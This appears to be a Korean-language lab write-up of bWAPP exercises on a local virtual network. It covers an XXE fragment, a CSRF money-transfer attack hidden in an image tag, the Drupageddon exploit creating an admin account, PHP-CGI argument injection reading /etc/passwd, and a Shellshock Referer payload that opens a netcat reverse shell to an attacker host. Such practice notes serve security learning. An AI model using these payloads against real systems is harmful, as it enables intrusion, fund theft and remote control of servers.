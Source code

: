 		<reset>
			<login>
				&XXE;
			</login>
			<secret>
				1
			</secret>
		</reset>
## Server Side Request Forgery(SSRF)
### security : low

## CSRF(Transfer Amount)
### security : low
CSRF(Cross-Site Request Forgery)
php?account=123-45678-90&amount=100&action=transfer
burp suite
intercept on
	/bWAPP/csrf_2.php?~ 복사
HTML Injection - Stored(Blog)
`<img src="http://192.168.56.143/~&action=transfer" width=0 height=0>
HTML Injection 사이트 들어갔다 나올 때마다 돈이 줄어짐
## Drupal SQL Injection(Drupageddon)
### security : low
CVE-2014-3704
exploitdb -> 34993.php 다운
vi 34993.php
	$url = 'http://192.168.56.143/drupal/';
php 34993.php
	admin / admin
## PHP CGI Remote Code Execution
### security : low
admin 클릭 : php 시스템에 대한 정보 출력
	admin/phpinfo.php
	php 5.x버전 사용
php5-cgi --help
http://192.168.56.143/bWAPP/admin/?-s
	페이지 소스 코드 내용을 색별로 확인
	cgi 취약점 존재
http://192.168.56.143/bWAPP/admin/?-dauto_prepend_file%3d/etc/passwd
	cgi 취약점 통해 /etc/passwd 파일이 브라우저에 실행됨.
## Shellshock Vulnerability(CGI)
### security : low
exploitDB : GNU Bash - 'Shellshock' Environment Variable Command Injection
nc -lvnp 4444
burp suite
intercept on
	Referer : () { :;}; echo "Shellshock Vulnerability TEST" $(/bin/sh -c "nc -e /bin/bash 192.168.56.102 4444")
	원격접속 성공
id
	www-data
pwd
	/usr/bin/cgi-bin